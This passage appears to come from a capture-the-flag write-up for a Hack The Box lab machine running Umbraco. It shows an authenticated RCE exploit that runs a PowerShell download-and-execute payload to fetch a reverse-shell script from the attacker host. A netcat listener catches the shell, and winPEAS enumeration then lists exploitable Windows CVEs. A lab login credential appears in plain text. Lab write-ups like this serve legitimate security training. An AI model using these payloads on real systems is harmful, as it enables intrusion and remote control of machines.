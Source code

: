 Let's use `Invoke-PowerShellTcp.ps1` this time.
On the original code, let's add the following in its last line:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 9000
```

Open a web server to upload file

```bash
┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.180 - - [06/Dec/2024 07:27:09] "GET /rshell.ps1 HTTP/1.1" 200 -
```

Run the exploit with the payload:

```ruby
┌──(kali㉿kali)-[~/htb/Umbraco-RCE]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c "powershell.exe" -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.14:8000/rshell.ps1')"
```

Listener

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.180] 49747
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
```


# Shell as `administrator`

### Enumeration

Let's run `winPEASx64.exe` first, to see what's interesting.

```powershell
PS C:\Users\Public\Desktop> .\winPEASx64.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help

<SNIP>

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)                                                                   
 [*] OS Version: 1809 (17763)
 [*] Enumerating installed KBs...
 [!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/                                                                      

 [!] CVE-2019-0841 : VULNERABLE
  [>] https://github.com/rogue-kdc/CVE-2019-0841
  [>] https://rastamouse.me/tags/cve-2019-0841/

 [!] CVE-2019-1064 : VULNERABLE
```